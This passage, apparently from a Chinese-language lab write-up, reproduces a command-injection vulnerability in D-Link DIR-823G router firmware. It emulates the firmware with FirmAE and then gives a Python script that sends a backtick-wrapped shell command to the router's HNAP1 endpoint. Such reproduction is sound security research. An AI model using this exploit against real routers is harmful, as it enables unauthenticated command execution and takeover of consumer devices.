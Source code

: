 我们继续看rcS文件
![](vx_images/114894979363507.png)


这个固件启动的是goahead服务



# 2、漏洞复现


## 2.1、模拟固件

### firmAE
```
sudo ./run.sh -d dlink ./firmwares/dir/dir823g/DIR823G_V1.0.2B05_20181207.bin
```

![](vx_images/62455008806919.png)


## 2.2、漏洞的复现

根据已有的exp寻找漏洞的利用点和利用链。
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests


IP='192.168.0.1'

#输入要执行的命令
command = "'`cat /flag > /web_mtn/flag.txt`'"
length = len(command)

#构造报文的头部
headers = requests.utils.default_headers()
headers["Content-Length"]=str(length)
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/GetClientInfo"'
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"

#发送攻击payload
payload = command
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
```
